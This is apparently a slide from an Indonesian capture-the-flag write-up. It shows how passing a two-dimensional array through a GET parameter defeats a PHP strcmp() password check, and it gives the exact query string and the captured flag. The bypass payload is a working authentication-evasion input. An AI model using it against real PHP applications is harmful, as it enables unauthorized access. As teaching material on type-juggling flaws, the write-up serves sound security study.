

strcmp($var1, $var2) akan bernilai true jika parameternya berupa array
# Solusi

Nilai $pass[$i] yang kita masukkan via $_GET harus berupa array agar lolos strcmp(), sehingga $pass harus berupa array dari array (array 2 dimensi):

Struktur array 2 dimensi disusun dalam query parameter GET menjadi:

Tambahkan query parameter tersebut ke alamat server dan didapatkan flag:
The Flag is: flag{AVariant_Of_Strcmp}

| $pass = $\_GET["password"]; ... strcmp($pass[$i], $password[$i]) |
| --- |
| $pass = array(array("a"), array("b"), array("c"), array("d")) |
| --- |
| ?password[0][0]=a&password[1][0]=b&password[2][0]=c&password[3][0]=d |
| --- |